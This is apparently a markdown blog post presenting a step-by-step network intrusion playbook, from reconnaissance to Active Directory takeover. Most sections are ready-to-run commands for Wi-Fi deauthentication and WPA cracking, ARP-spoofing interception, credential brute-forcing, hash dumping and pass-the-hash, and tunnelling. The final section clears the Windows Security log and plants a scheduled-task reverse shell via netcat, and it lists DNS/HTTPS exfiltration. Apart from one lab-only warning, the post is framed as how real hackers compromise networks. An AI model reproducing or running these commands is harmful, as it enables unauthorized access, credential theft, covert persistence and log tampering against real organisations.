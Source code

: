 ```yaml
---
title: "Real Network Hacking: Step-by-Step Attack Flow"
description: >-
  This guide walks through the full process of hacking a network — from recon to gaining domain control. Internal or wireless — here's how it's done.
author:
name:
date: 2025-02-12 13:00:00 +0000
categories: [Pentesting]
tags: [network, hacking, internal, wifi, mitm, lateral]
---
```


> “Hackers don’t just scan — they map, infiltrate, and move silently across layers.”
{: .prompt-info }
This post shows how real hackers compromise networks. Internal corp LANs, WiFi, or exposed edge — it's all about control.

---

## 1. Network Reconnaissance

> **Rule #1**: Stay passive until you know what you're touching.

### Passive Recon
- Wireshark (capture broadcast traffic, ARP requests)
- Netdiscover / ARP-scan to enumerate local hosts

```bash
sudo arp-scan -l
sudo netdiscover -r 192.168.1.0/24
```

### Active Scanning
```bash
nmap -sS -T4 -p- <target-subnet>
nmap -sV -sC -p 21,22,80,443,139,445 <IP>
```

---

## 2. Wi-Fi Network Attacks

### Deauth + Capture Handshake
```bash
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng -0 5 -a <BSSID> -c <ClientMAC> wlan0mon
```

### Crack with rockyou.txt
```bash
aircrack-ng capture.cap -w rockyou.txt
```

> Or target WPS with `bully`, `reaver`, or WPA downgrade attacks.
{: .prompt-tip }

---

## 3. Network Sniffing & MITM

### ARP Spoofing (mitmproxy)
```bash
arpspoof -i eth0 -t <victim-ip> <gateway-ip>
```

Then:
```bash
mitmproxy -i eth0 -p 8080
```

Can intercept:
- Unencrypted creds
- JWTs, cookies
- Hidden endpoints

> **Only use on legal labs or test setups.** This is *extremely intrusive*.
{: .prompt-warning }

---

## 4. Exploit Network Services

### Open SMB
```bash
smbclient -L //<IP> -N
```

Try null session:
```bash
smbmap -H <IP>
enum4linux -a <IP>
```

### RDP / WinRM
```bash
crackmapexec rdp <IP> -u users.txt -p rockyou.txt
evil-winrm -i <IP> -u admin -p password
```

### Exploit Open FTP / Redis / SNMP
- Anonymous FTP upload shell
- SNMP enum with `snmpwalk`
- Redis `CONFIG SET` → RCE

---

## 5. Lateral Movement

> *`"Once you're in — the goal is **domain admin**. Pivoting begins."`*{: .filepath}

### Use Compromised Creds
```bash
crackmapexec smb 10.10.10.0/24 -u jusot99 -p password123
```

### Dump Hashes
```bash
secretsdump.py jusot99@<IP>
```

Use hashes:
```bash
psexec.py -hashes <LM>:<NT> administrator@<IP>
```

---

## 6. Pivoting & Tunneling

### Use Chisel
```bash
# Victim
./chisel client <attacker>:8000 R:3389:127.0.0.1:3389

# Attacker
./chisel server -p 8000 --reverse
```

### SSH Pivot
```bash
ssh -L 1080:target:22 user@jumpbox
```

Chain with proxychains:
```bash
proxychains nmap -sT 192.168.50.0/24
```

---

## 7. Domain Takeover (AD Attack Path)

Use:
- `bloodhound` + `SharpHound` to map trust
- `Rubeus` to harvest TGTs/AS-REPs
- `kerbrute`, `impacket` for relays + coercion
- Abuse delegation / GPP / password reuse

> LAPS, printers, DNSAdmin, GPP, DCSync — all lead to Domain Admin when misconfigured.
{: .prompt-tip }
---

## 8. Final Extraction & Persistence

- Setup reverse tunnel backdoor
- Drop scheduled tasks or backdoored services
- Exfil via DNS, HTTPS, or FTP
- Clean logs, drop custom creds

```bash
wevtutil cl Security
schtasks /create /tn "Updater" /tr "nc.exe -e cmd.exe <IP> 4444" /sc onstart
```

---

## Tools You Need

| Tool           | Purpose                        |
|----------------|--------------------------------|
| `netdiscover`  | Passive network mapping        |
| `aircrack-ng`  | Wireless attacks               |
| `responder`    | LLMNR/NBT-NS poisoning         |
| `mitmproxy`    | Intercept traffic              |
| `crackmapexec` | Network exploitation & movement|
| `Impacket`     | SMB, RDP, WMI, Kerberos attacks|
| `BloodHound`   | Active Directory graph attacks |

---

## Final Advice

> **`“A network isn’t a structure. It’s a trust graph. Hack the trust.”`**{: .filepath}

- Exploit trust, not just services
- Map before attacking
- Lateral movement wins more than brute exploits
